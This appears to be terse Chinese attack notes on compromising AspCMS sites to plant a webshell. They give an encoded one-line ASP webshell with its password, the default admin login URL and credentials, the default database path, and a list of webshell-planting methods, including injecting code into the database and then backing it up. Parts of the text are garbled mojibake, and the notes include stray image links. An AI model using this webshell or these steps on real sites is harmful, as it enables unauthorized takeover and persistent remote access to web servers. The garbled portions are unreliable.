



uft7 一句话

```
┼攠數畣整爠煥敵瑳∨≡┩愾
```

 密码：a

 http://www.aspcms.com/admin_aspcms/login.asp

```
admin
123456
```

- 插入asp文件拿webshell
- 新建文件 拿webshell
- 上传文件拿wenshell
- 编辑html 拿webshell
- 备份数据库拿webshell

- ## “” 

asp或者asa 后缀

aspcms默认的这个数据库名是#5Dp8Gh.asp

 http://www.aspcms.com/data/%235Dp8Gh.asp

 备份之后不符合我们的条件 



插入数据马



备份文件，在备份文件中有ÀàÐͲ»Æ¥Åä: 'execute'

